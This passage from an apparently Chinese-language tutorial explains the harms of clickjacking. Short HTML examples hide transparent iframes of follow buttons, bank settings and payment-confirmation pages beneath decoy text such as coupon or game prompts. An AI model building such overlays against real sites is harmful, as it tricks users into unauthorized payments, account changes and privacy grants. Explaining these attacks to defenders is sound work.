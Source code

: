 ```html
  <!-- 诱饵内容，例如"点击领取奖励" -->
</div>
<iframe class="overlay" src="https://target-site.com"></iframe>
```

## 6. 具体危害

### 6.1. 社交媒体攻击

- 强制关注特定账号
- 点赞/转发恶意内容
- 发布未经授权的状态更新
```javascript
// 示例：诱导用户点击隐藏的"关注"按钮
<iframe src="https://social-media.com/follow-button" 
        style="opacity: 0; position: absolute;">
</iframe>
```

### 6.2. 账户安全威胁

- 修改账户设置
- 更改密码
- 添加授权设备
```html
<!-- 示例：隐藏的账户设置页面 -->
<div style="position: relative; width: 500px; height: 300px;">
  <iframe src="https://bank.com/settings" 
          style="opacity: 0.0; position: absolute;"></iframe>
  <div style="position: absolute;">
    点击领取优惠券！
  </div>
</div>
```

### 6.3. 金融安全威胁

- 诱导转账
- 购买商品
- 确认支付
```html
<!-- 示例：隐藏的支付确认页面 -->
<div class="game-button">
  <iframe src="https://payment.com/confirm" 
          style="opacity: 0;"></iframe>
  点击开始游戏
</div>
```

### 6.4. 隐私泄露

- 授权访问个人信息
- 同意隐私政策
- 开启设备权限
